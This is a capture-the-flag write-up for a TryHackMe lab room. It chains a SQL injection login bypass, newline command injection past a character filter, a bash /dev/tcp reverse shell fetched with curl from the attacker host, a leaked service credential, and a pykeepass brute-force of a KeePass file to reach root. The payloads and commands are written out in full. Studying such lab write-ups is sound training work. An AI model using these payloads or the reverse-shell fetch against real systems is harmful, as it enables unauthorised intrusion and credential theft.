









# Silent Monitor: CTF Writeup

- **Platform:** TryHackMe
- **Challenge:** Silent Monitor ("Green Lights, Dark Corners")
- **Category:** Web Exploitation / Linux Privilege Escalation
- **Objective:** Obtain `user.txt` and `root.txt`

## Table of Contents

- [TL;DR](#tldr)
- [1. Challenge Context](#1-challenge-context)
- [2. Reconnaissance and Triage](#2-reconnaissance-and-triage)
- [3. Finding the Hidden Login Page](#3-finding-the-hidden-login-page)
- [4. Breaking the Login: SQL Injection Authentication Bypass](#4-breaking-the-login-sql-injection-authentication-bypass)
- [5. From Dashboard to Command Injection](#5-from-dashboard-to-command-injection)
- [6. Getting a Shell: Characterizing the Filter](#6-getting-a-shell-characterizing-the-filter)
- [7. Reading the Source: the Filter, the SQLi, and a Leaked Credential](#7-reading-the-source-the-filter-the-sqli-and-a-leaked-credential)
- [8. Lateral Movement: From www-data to sysadmin](#8-lateral-movement-from-www-data-to-sysadmin)
- [9. Enumerating sysadmin: user.txt and a KeePass Backup](#9-enumerating-sysadmin-usertxt-and-a-keepass-backup)
- [10. Cracking infrastructure.kdbx and Escalating to Root](#10-cracking-infrastructurekdbx-and-escalating-to-root)
- [11. Rabbit Holes and Failed Attempts](#11-rabbit-holes-and-failed-attempts)
- [12. Flags](#12-flags)
- [13. Lessons Learned](#13-lessons-learned)

## TL;DR

We bypassed a hidden login with SQL injection, used a command injection in an authenticated "Host Health" probe to get a shell as `www-data`, pivoted to `sysadmin` through a credential leaked in the app's own source, and found the real `root` password sitting inside a KeePass database in `sysadmin`'s backup folder, protected only by a master password weak enough to crack from a common wordlist.

## 1. Challenge Context

The room's brief described CorpNet's NOC (Network Operations Centre) portal as a monitoring dashboard that had been "running quietly for years," with a tip that someone on the NOC team had been "cutting corners, leaving doors open, and hiding things in places no one thinks to look." That framing turned out to describe the room almost literally: every stage of the chain we eventually walked was a different flavor of the same mistake.

- Target: `10.49.170.107`, reached over the TryHackMe VPN from our attacker box at `10.49.107.57`.
- Goal: obtain `user.txt` and `root.txt`.

## 2. Reconnaissance and Triage

We started with a full TCP port sweep to see the whole attack surface before narrowing in on anything:

```bash
nmap -p- --min-rate 2000 -T4 -oN allports.txt 10.49.170.107
```

Only two ports were open: `22` (SSH) and `5050` (HTTP). A follow-up service/version scan filled in the details:

```bash
nmap -sC -sV -p 22,5050 -oN services.txt 10.49.170.107
```

```
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
5050/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.10.12)
```

Port 5050 was a Flask app (the Werkzeug dev server banner gives that away directly), titled "CorpNet — Network Operations Centre." With no obvious lead on the SSH service, and nothing in its banner or version pointing at a specific vulnerability or credential, we left it alone and focused on the web app.



## 3. Finding the Hidden Login Page

The landing page was a static marketing-style page: a hero section, a stats bar, and three feature cards. Pulling the raw HTML confirmed there was nothing to click through: no `<a href>`, no `<form>`, no `<script src>`. If this app had any other functionality, the only way to find it was content discovery, not following links, which fit the room's "hiding things in places no one thinks to look" framing.

```bash
gobuster dir -u http://10.49.170.107:5050 -w /usr/share/wordlists/dirb/common.txt -x php,html -t 40 -o gobuster.txt
```

```
/internal             (Status: 200) [Size: 8770]
```

`/internal` turned out to be a login page, "CorpNet NOC — Sign In," asking for an "operator id" and a password.

## 4. Breaking the Login: SQL Injection Authentication Bypass

The login form's source (`login.html`) was a plain `POST` to `/internal` with `username`/`password` fields, no CSRF token, and no client-side validation. With nothing pointing at a specific valid credential, SQL injection was the cheapest hypothesis to test before anything else, since a single crafted request could confirm or rule it out without any risk of lockouts or rate limiting.

A baseline bad login:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=test&password=test"
```

returned a generic `Invalid username or password.`. A single quote in the username:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=test'&password=test"
```

produced the identical generic error, which ruled out an unhandled SQL error leaking through but didn't rule out SQL injection itself. The real test was a boolean payload:

```bash
curl -i -X POST http://10.49.170.107:5050/internal \
  -d "username=admin' OR '1'='1'-- -&password=x"
```

That redirected straight into the dashboard, logged in as an operator account called `netops`, with zero valid credentials. The login query was building SQL through direct string interpolation, and `' OR '1'='1'-- -` turned the `WHERE` clause into something that's always true.



## 5. From Dashboard to Command Injection

Once inside as `netops` (role `OPERATOR`), the dashboard exposed four sections: Overview, Host Health, Audit Log, and Services. The audit log was immediately interesting for a different reason: it was echoing the raw login `username` field back unsanitized, so failed SQLi and command-injection attempts from other testers were sitting there in plain text as "operator" names.



The "Host Health" page was a simple ICMP reachability probe: a free-text target field and a "Run Probe" button, claiming to accept RFC-952 hostnames and IPv4 addresses.



A baseline probe against `127.0.0.1` returned genuine `ping` output, and the way the UI formatted that output gave away the exact backend command: `ping -c 2 -W 1 <input>`. That's direct, unvalidated string interpolation into a shell command. A quick test with the field set to just `whoami` (no separator) came back as `ping: whoami: Temporary failure in name resolution`, confirming the raw value was reaching `ping` as a second argument, not yet as a separate command.



The obvious next step was separating a second command from `ping` with a newline, but that took two wrong turns before it worked (see [Rabbit Holes](#11-rabbit-holes-and-failed-attempts)): the browser's single-line `<input>` simply cannot carry a raw newline byte, no matter how it's typed. The fix was to control the raw HTTP bytes directly with `curl`, bypassing the browser entirely:

```bash
curl -s http://10.49.170.107:5050/internal/health \
  --data-urlencode $'target=127.0.0.1\nwhoami' \
  -b "session=<netops session cookie>"
```

```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
...
www-data
```

The `ping` output was followed by `www-data`, confirming OS command injection, executing as the web server's own user.



## 6. Getting a Shell: Characterizing the Filter

A full base64-encoded Python3 reverse shell, piped through `base64 -d|sh` on the same newline-injection pattern, got rejected with `Invalid hostname or IP address.`. Rather than guess at what the filter was blocking, we isolated it one variable at a time:

| Test                             | Input                                       | Result      |
| -------------------------------- | ------------------------------------------- | ----------- |
| Space + hyphen                   | `127.0.0.1\nid -u`                          | passed      |
| Pipe character                   | `127.0.0.1\necho a\|echo b`                 | **blocked** |
| `>` redirection                  | `127.0.0.1\nid > /tmp/t`, then `cat /tmp/t` | passed      |
| `=` (base64 padding)             | `127.0.0.1\necho aGVsbG8= > /tmp/h`         | passed      |
| `&` character                    | `127.0.0.1\necho hi & echo bye`             | **blocked** |
| Multi-line (4 lines), safe chars | chained `echo`/`cat` across 4 lines         | passed      |
| `+` character                    | `127.0.0.1\necho a+b > /tmp/q`              | passed      |

Only `|` and `&` were actually blocked; everything else, including multi-line input, went through. That ruled out a short line-count limit and pointed at something other than raw characters explaining the original full-payload failure (confirmed from source in the next section: a 100-character length cap).

We also tried a bash `/dev/tcp` reverse shell, which failed too, consistently with `&` being blocked: that technique structurally needs `&` for file-descriptor duplication, so no amount of rephrasing fixes it (see [Rabbit Holes](#11-rabbit-holes-and-failed-attempts)).

With the filter's shape understood, the working technique was to separate "what gets typed into the filtered field" from "what actually runs": host the real payload externally and inject only a short fetch-and-execute command, which stays well under the length cap and never puts the filtered `&`/`|` characters in front of the filter at all, since they live inside the fetched file instead.

```bash
# attacker machine
echo 'bash -i >& /dev/tcp/10.49.107.57/4444 0>&1' > shell.sh
python3 -m http.server 8000
```

```bash
curl -s http://10.49.170.107:5050/internal/health \
  --data-urlencode $'target=127.0.0.1\ncurl 10.49.107.57:8000/shell.sh -o /tmp/s\nbash /tmp/s' \
  -b "session=<netops session cookie>"
```

That connected a reverse shell on a [Penelope](https://github.com/brightio/penelope) listener (used in place of raw `netcat` for its automatic PTY upgrade), giving an interactive shell as `www-data`.



## 7. Reading the Source: the Filter, the SQLi, and a Leaked Credential

With command execution in hand, reading the application's own source was far faster than any more guessing:

```bash
cat app.py
cat secret.config
ls -la
```

`app.py` confirmed both vulnerabilities directly. The login query:

```python
query = (
    "SELECT id, username, role FROM users "
    "WHERE username = '%s' AND password = '%s'"
) % (username, pw_hash)
```

And the health-check filter:

```python
PING_BLOCK_RE = re.compile(r"[;|`$&]")
...
elif len(target) > 100:
    cmd_err = "Invalid hostname or IP address."
```

That settled the length-vs-character question from Section 6: the filter blocks exactly `;`, `|`, `` ` ``, `$`, `&`, and separately caps the whole input at 100 characters.

`secret.config`, sitting right next to `app.py`, leaked a service-account credential:

```
[backup_agent]
run_as   = sysadmin
password = S3cur3Backup$Acc3ss!
```

That's a real OS account (`sysadmin`), not just an application-level label, which made it worth testing directly against the box.

## 8. Lateral Movement: From www-data to sysadmin

`su sysadmin` from inside the Penelope reverse shell failed twice with `Authentication failure`. Rather than assume the password was wrong, we tried the same credential over a clean channel instead of the non-interactive reverse shell:

```bash
ssh sysadmin@10.49.170.107
```

That logged in immediately, confirming the credential was valid all along (the `su` failures were a TTY artifact of the reverse shell, not a bad password, see [Rabbit Holes](#11-rabbit-holes-and-failed-attempts)). The login banner also confirmed the box: Ubuntu 22.04.5 LTS, hostname `tryhackme-2204`.

## 9. Enumerating sysadmin: user.txt and a KeePass Backup

`sysadmin`'s home directory held the first flag directly:

```
sysadmin@tryhackme-2204:~$ ls -la
...
drwx------ 2 sysadmin sysadmin 4096 May 19 03:36 backups
-rw-rw-r-- 1 sysadmin sysadmin   42 May 19 03:29 user.txt
sysadmin@tryhackme-2204:~$ cat user.txt
THM{REDACTED}
```



The `backups/` directory next to it was more interesting than a typical home-directory dead weight. It held a `README.txt` and a KeePass database:

```
sysadmin@tryhackme-2204:~/backups$ cat README.txt
Backup archive — infrastructure credentials

Periodic exports from the credential store are placed here by the backup agent.
Treat all files in this directory as CONFIDENTIAL.

infrastructure.kdbx — KeePass credential database
```

"Placed here by the backup agent" ties straight back to the `[backup_agent]` account from `secret.config`: this is where that service account's output actually lands. A `.kdbx` file readable by `sysadmin`, explicitly labeled as holding "infrastructure credentials," was the obvious next target: it might hold the `root` password itself.

## 10. Cracking infrastructure.kdbx and Escalating to Root

Before spending effort on cracking, we checked for cheaper wins and a few credential-reuse shortcuts, all of which came up empty (detailed in [Rabbit Holes](#11-rabbit-holes-and-failed-attempts)): no `sudo` rights, no readable service environment file, no keyfile sitting next to the database, and the already-known `secret.config` password didn't open it either.

With no shortcut available, we pulled the database to the attacker machine and cracked it directly:

```bash
scp sysadmin@10.49.170.107:~/backups/infrastructure.kdbx .
```

Standard offline-cracking tooling (`keepass2john`, `hashcat`) turned out to be incomplete on this particular attacker image, so we cracked the database directly through [pykeepass](https://github.com/libkeepass/pykeepass), which parses the KDBX format natively and needs no separate hash-extraction step:

```python
from pykeepass import PyKeePass
from pykeepass.exceptions import CredentialsError

def try_password(pw):
    try:
        PyKeePass("infrastructure.kdbx", password=pw)
        return pw
    except CredentialsError:
        return None
```

A quick timing check showed each attempt took about `0.03s`, cheap enough to brute-force a sizeable wordlist in reasonable time. We ran a multiprocessing version of the function above against the most common one million entries from `rockyou.txt` (the file is pre-sorted by frequency, so the head is the highest-value slice):

```bash
gunzip -k /usr/share/wordlists/rockyou.txt.gz
head -n 1000000 /usr/share/wordlists/rockyou.txt > rockyou-top1m.txt
python3 crack_mp.py rockyou-top1m.txt
```

The master password turned up after roughly 2,000 attempts. Opening the database with it revealed two entries: a sample/template entry left over from KeePass's own default data, and this one:

```
Title: Root User Password - Sensitive
Username: root
Password: [REDACTED]
Notes: root user password, remember to change later.
```

That "remember to change later" note is the whole room's theme in one line. We used it directly:

```
sysadmin@tryhackme-2204:~/backups$ su root
Password:
root@tryhackme-2204:/home/sysadmin/backups# whoami
root
root@tryhackme-2204:/home/sysadmin/backups# id
uid=0(root) gid=0(root) groups=0(root)
root@tryhackme-2204:~# cat root.txt
THM{REDACTED}
```



Both flags obtained. The chain end to end: hidden endpoint discovery → SQL injection auth bypass → OS command injection (RCE as `www-data`) → leaked OS credential (lateral movement to `sysadmin`) → weakly protected credential vault → root password exposure → full root compromise.

## 11. Rabbit Holes and Failed Attempts

- We considered pivoting to "anonymous SSH login" purely because port 22 was open, but dropped the idea before testing it: there was no leaked credential or banner anomaly to support it, and SSH has no true anonymous-auth mode by default.
- The audit log showed entries that looked like a prior successful newline-injection attempt (`127.0.0.1%0awhoami`). It wasn't: typing a literal backslash-`n` or a literal `%0a` into the Host Health field both just sent that literal text to `ping`, not a real newline byte, because a single-line HTML `<input>` can't carry one from the keyboard. That meant the matching audit-log entries were almost certainly other testers' failed attempts too, not evidence that the technique had already worked.
- Our first full reverse-shell payload (base64-encoded, piped through `base64 -d|sh`) failed, and we initially suspected character filtering. Isolating each character separately (Section 6) showed only `|` and `&` were blocked; the real cause, confirmed later from `app.py`, was a 100-character length cap on the whole field.
- A bash `/dev/tcp` reverse shell (`bash -i >& /dev/tcp/<ip>/4444 0>&1`) failed for the same reason `|`-based and `&`-based chaining did: it structurally requires `&`, which the filter blocks, so no rephrasing of that technique gets around it.
- `su sysadmin` from the non-interactive reverse shell failed twice with `Authentication failure`, which looked like a wrong password. It wasn't: SSH with the identical password worked immediately, meaning the `su` failures were a TTY/stdin artifact of running inside a non-interactive reverse shell, not an invalid credential.
- We tried installing `keepassxc` via `apt` and extracting a crackable hash with `keepass2john`, but both failed on this attacker image: the `apt` package index was stale (404s on dependency `.deb`s), and this build of `keepass2john` is the Kali base package, not jumbo, so it doesn't parse the KDBX4 format our database used. We checked for a `hashcat`-side equivalent (`keepass2hashcat`) too, with no luck, and pivoted to cracking the database directly through `pykeepass` instead.
- The already-known `secret.config` password didn't open `infrastructure.kdbx`; credential reuse was a reasonable first guess, but false here.
- A small, room-themed custom wordlist (known passwords, `netops`/`sysadmin`/`backup_agent`, corporate-sounding guesses) missed entirely; the real master password turned out to be a common one from `rockyou`, not a themed guess.
- `sudo -l` and the `netops.service` environment file (`/etc/netops/env`) were both checked as `sysadmin` on the way to the KeePass lead, and both came back empty/permission-denied; they were not the intended privilege-escalation path for this room.

## 12. Flags

- `user.txt`: `THM{REDACTED}`
- `root.txt`: `THM{REDACTED}`

Both flags were captured and verified during the investigation; their actual values are redacted here since this is an active TryHackMe room.

## 13. Lessons Learned

- **Newline injection into a single-argument shell command is a distinct technique from `;`/`|`/`&` chaining.** A filter that blocks the usual chaining characters can still be bypassed if the vulnerable call only needs a raw newline byte to separate two commands, and that byte has to come from somewhere other than a browser `<input>`.
